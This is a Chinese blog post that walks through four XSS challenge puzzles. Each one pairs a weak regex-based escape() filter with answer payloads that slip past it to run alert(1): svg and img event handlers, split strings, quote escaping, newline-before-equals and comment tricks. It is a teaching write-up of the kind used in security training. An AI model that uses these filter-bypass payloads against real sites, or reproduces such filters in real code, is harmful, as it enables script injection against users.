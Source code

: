 ```yaml
---
layout: post
category : 前端技术
title: "XSS挑战赛"
tags : [XSS]
---
```

{% include JB/setup %}

## 简介

[kirov](http://kirov.alibaba-inc.com/know/game) 是A厂厂内的一项 XSS 挑战赛，里面试题对于 XSS 知识的学习挺有代表性，因此摘录下来跟大家一起分享。

挑战赛地址: [http://alvinhui.github.io/a-xss/](http://alvinhui.github.io/a-xss/)

规则:

1. 在沙盒域内执?行 alert(1) 为通过
2. 答案需要?自动触发(?无交互)
3. 以最新的 Chrome 为准

## 题目

### 第一题

[http://alvinhui.github.io/a-xss/1.html](http://alvinhui.github.io/a-xss/1.html)

```
function escape(input) {
//100分 //热个?身:不能更简单了!
input = input.replace(/script/g, '_'); return input;
}
```

考查点：

1. 正则表达式
2. 普通标签触发脚本

答案：

1. 正常：`<Script>alert(1)</Script>` 注意过滤函数中的正则是忽略大小写的
2. 使用事件触发 `<img src=1 onerror="alert(1)"/>` img 的 src 属性无法获取相应的资源，触发 onerror 事件
3. 最短：`<svg onload="alert(1)"/>` 利用 svg 可自动触发 onload 事件使得代码最短

### 第二题


[http://alvinhui.github.io/a-xss/2.html](http://alvinhui.github.io/a-xss/2.html)

```
function escape(input) {
//200分 //嗯,要成为?一名合格的Xsser必须要掌握基础的Javascript
input = input.replace(/[&+!>\\]|tring|val|set|lert/gi, '_');
return '<challenge1>' + input + '</challenge1>';
}
```

考查点：

1. javascript 基础
2. html标签使用的熟悉程度

答案：

```
<svg onload="window[['al','ert'].join('')](1)"
```

解析：

* 正则中过滤了 lert ，但是 `window['alert']` 和 `winodw.alert` 是一样的效果，我们可以通过小技巧组合一个 alert：`['al','ert'].join('')`
* 正则中过滤了 > ，但是我们可以通过自闭合的 svg 标签来达成目的


### 第三题

[http://alvinhui.github.io/a-xss/3.html](http://alvinhui.github.io/a-xss/3.html)

```
function escape(input) {
//200分
//跨过的人都知道这很常见!
input = input.replace(/mbed|cript|on.+=/ig, '_');
input = input.split('#');
var output = '';
for (var i in input) {
output += '\n<split id="undefined" name="' + input[i].slice(0, 12) + '">'
}
return output;
}
```

考查点：

1. 字符串逃逸：对引号的运用
2. 浏览器解析html渲染规则

答案：

```
"><svg a='#'onload
='/*#*/alert(1)'
```

解析：

1. 由于题目中过滤了 script ，因此我们使用 svg 标签来达到脚本执行的目的。首先看到题目中把输出结果放到了标签属性内，我们需要逃逸出来，因此 input：

```
"><svg a=" //注意此处 a 是一个不存在的属性，这里使用只是为了逃逸
```

得到输出结果：

```
<split id="undefined" name="">
<svg a=""></svg>
</split>
```
2. 紧接着我们需要一个脚本执行的环境，input：

```
"><svg a="" onload=""
```

但是这样写后我们发现由于题目将输出用 # 号分割并且做了输出长度限制，导致我们的 onload 字符串无法加载。得到的输出结果是：

```
<split id="undefined" name=""><svg a="" ">
```
3. 借着出题者的思路，我们可以通过对引号和#号的使用，逃脱字符串长度限制，input：

```
"><svg a='#' onload
="
```

为了逃逸题目正则中对`onload=`的限制，这里我们在=号前回车获得同样的渲染效果。得到输出结果：

```
<split id="undefined" name="">
<svg a='"><split id="undefined" name="' onload=""></svg>
</split>
```
4. 紧接着我们就可以愉快地在里面写脚本了。。。吗？尝试 input：

```
"><svg a='#' onload
="alert(1)
```

发现得到的输出结果却是：

```
<split id="undefined" name="">
<svg a='"><split id="undefined" name="' onload=""></svg>
</split>
```
原因还是因为题目中的字符串长度限制
5. 继续利用题目中 # 号分割的条件加上代码注释的手段逃脱字符限制

```
"><svg a='#'onload
='/*#*/alert(1)'
```

得到的输出结果是：

```
<split id="undefined" name="">
<svg a='"><split id="undefined" name="' onload='/*"><split id="undefined" name="*/alert(1)' "></svg>
</split>
```

可以看到，我们使用 单引号逃脱双引号，使用 `/* */` 的方式把多余的html代码进行了注释，最后，愉快地输出任何我想要的脚本吧～

### 第四题

[http://alvinhui.github.io/a-xss/4.html](http://alvinhui.github.io/a-xss/4.html)

```
function escape(input) {
//200分
//ben总经常教导Xsser:知识面要广
//小考验，并不难
input = input.replace(/on.+?=|>/gi, "_");
if(input.split('"').length > 2){
return '';
}
else{
return '<embed allowscriptaccess=always src="http://mall.aliapp.com/prompt.swf'+input+'"></embed>';
}
}
```

考查点：

1. 对 embed 元素渲染规则的了解

答案：

```
1"onload
='alert(1)'
```

解析：

1. 利用 embed 可以触发 onload 事件的特性，依然使用字符串逃逸的方法构造 onload 代码，input：

```
"onload
=''
//题目中的正则过滤掉了onXXX=，这里我们在=号前回车获得同样的渲染效果；
//注意题目中对双引号使用的限制，因此使用单引号规避；
```
2. 发现加载的 flash 会自动触发脚本，反倒是被它xss了。tmd，赶紧做掉它；这里的技巧是：哪怕flash不存在也会触发 onload 事件，所以我们大功告成：

```
1"onload
='alert(1)'
```

得到结果：

```
<embed allowscriptaccess=always src="http://mall.aliapp.com/prompt.swf1" onload='alert(1)' "></embed>
```